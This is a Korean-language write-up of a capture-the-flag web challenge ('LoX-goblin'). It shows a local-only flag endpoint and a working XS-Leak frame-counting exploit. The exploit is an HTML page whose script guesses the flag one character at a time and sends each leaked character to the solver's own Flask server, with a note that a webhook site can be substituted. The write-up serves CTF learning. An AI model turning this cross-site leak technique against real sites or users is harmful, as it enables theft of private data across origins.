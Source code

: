 # LoX-goblin

# Usage

# Concept
- XSleak

# Writeup

### app.js
문제 코드입니다.
```js
const isLocal = () => (req, res, next) => (req.connection.remoteAddress === '::ffff:127.0.0.1'|| req.connection.remoteAddress === '::1') 
    ? next() 
    : res.status(403).send('Only LOCAL is allowed');

app.get('/', (req, res) => {
    res.send('hello!!');
});

// isLocal()
app.get('/flag',isLocal(),(req, res) => {
    if (!('flag' in req.query))
        return res.status(200).send('give me flag');

    let flag = req.query.flag;

    if (typeof flag !== 'string')
        return res.status(200).send('give me string type');

    for (let i = 0; i < flag.length; i++) {
        if (flag.charCodeAt(i) < 32 || flag.charCodeAt(i) > 127) {
            return res.status(200).send('plz ascii');
        }
    }

    if (FLAG.startsWith(flag)) {
        res.status(200).send('good try');
    } else {
        res.status(200).send(`<iframe id="goblin"></iframe>`);
    }
});

```
flag엔드포인트는 로컬만 접속이 가능합니다. flag엔드포인트에서 flag쿼리의 값이 실제 FLAG로 시작하면 good try문자열 반환하고 아니면 iframe을 반환합니다. iframe으로 창안에 frame 개수를 확인 할 수 있기 때문에(sop를 무시할 수 있음) frame개수를 확인하여 flag를 얻을 수 있습니다.
Frame Counting이란 XSleak기법입니다.


#### index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <iframe id="iframe"></iframe>
    <script>
        const ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_";
        const FLAG_START = '{{ flag }}';

        const request = async (url) => {
            return new Promise((resolve, reject) => {
                const iframe = document.getElementById("iframe");
                iframe.src = url;
                iframe.onload = () => iframe.contentWindow.frames.length === 0 ? resolve() : reject();
            });
        }

        const leak = async (query) => {
            try {
                await request(`http://localhost/flag?flag=${query}`);
                return true;
            } catch (e) {
                return false;
            }
        }

        const exploit = async () => {
            let flag = FLAG_START;
            while (!flag.includes("}")) {
                for (let char of ALPHABET) {
                    if (await leak(flag + char)) {
                        flag += char;
                        await fetch('/addFLAG?flag=' + char);
                        break;
                    }
                }
            }
        }

        exploit();
    </script>
</body>
</html>
```
#### solv.py
```py
from flask import Flask, request, render_template

flag = "hspace{"
app = Flask(__name__)

@app.route('/solv')
def solv():
    return render_template('index.html',flag=flag)

@app.route('/addFLAG')
def addFLAG():
    global flag
    
    if 'flag' in request.args:
        flag += request.args['flag']
        print(flag)
        return 'added'
    return 'no flag'


@app.route('/getFlag')
def getFlag():
    return flag


if __name__ == '__main__':
    app.run('0.0.0.0', port=30000)
```
솔버 코드입니다. frame개수가 0일때 FLAG를 얻습니다. 
저같은 경우 window에서 wsl말고 flask로 익스플로잇을 했습니다.(서버가 필요하기에 포트포워딩을 해줘야합니다.) 물론 github.io를 이용해서 구할 수도 있습니다. fetch('/addFLAG?flag=' + char)이 코드에 /addFLAG 이 부분을 웹훅사이트로 교체하면 됩니당. 
봇이 url을 60초 동안 방문하기 때문에 한번에 leak이 가능합니다. 익스플로잇을 돌리면 대략 15초 정도안에 flag를 다 구할 수 있습니다.


